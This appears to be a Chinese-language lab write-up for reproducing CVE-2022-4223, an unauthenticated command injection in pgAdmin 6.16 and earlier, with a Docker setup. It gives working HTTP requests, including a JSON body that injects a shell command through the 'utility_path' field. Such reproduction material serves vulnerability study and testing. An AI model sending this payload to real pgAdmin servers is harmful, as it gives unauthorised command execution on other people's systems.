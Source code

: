 # pgAdmin <= 6.16 无授权远程命令执行漏洞（CVE-2022-4223）

pgAdmin是一个著名的PostgreSQL数据库管理平台。

pgAdmin包含一个HTTP API可以用来让用户选择并验证额外的PostgreSQL套件，比如pg_dump和pg_restore。但在其6.16版本及以前，对于用户传入的路径没有做合适的验证，导致未授权的用户可以在目标服务器上执行任意命令。

参考链接：

- <https://github.com/pgadmin-org/pgadmin4/commit/799b6d8f7c10e920c9e67c2c18d381d6320ca604>
- <https://github.com/pgadmin-org/pgadmin4/commit/461849c2763e680ed2296bb8a753ca7aef546595>
- <https://github.com/advisories/GHSA-3v6v-2x6p-32mc>

## 漏洞环境

执行如下命令启动一个pgAdmin 6.16服务器：

```
docker compose up -d
```

服务器启动后，访问`http://your-ip:5050`即可查看到pgAdmin默认的登录页面。

## 漏洞复现

在复现漏洞前，需要发送如下数据包获取CSRF token：

```
GET /login HTTP/1.1
Host: your-ip:5050
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8,en-US;q=0.7
Connection: close


```

在返回包中拿到一个新的session id和csrf token：

![](1.png)

然后，将获取到的session id和csrf token填写进下面的数据包并发送：

```
POST /misc/validate_binary_path HTTP/1.1
Host: your-ip:5050
Content-Length: 27
X-pgA-CSRFToken: [csrf-token]
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Content-Type: application/json
Accept-Encoding: gzip, deflate, br
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8,en-US;q=0.7
Cookie: pga4_session=[session-id]
Connection: close

{"utility_path":"a\";id;#"}
```

可见，`id`命令已经被成功执行：

![](2.png)
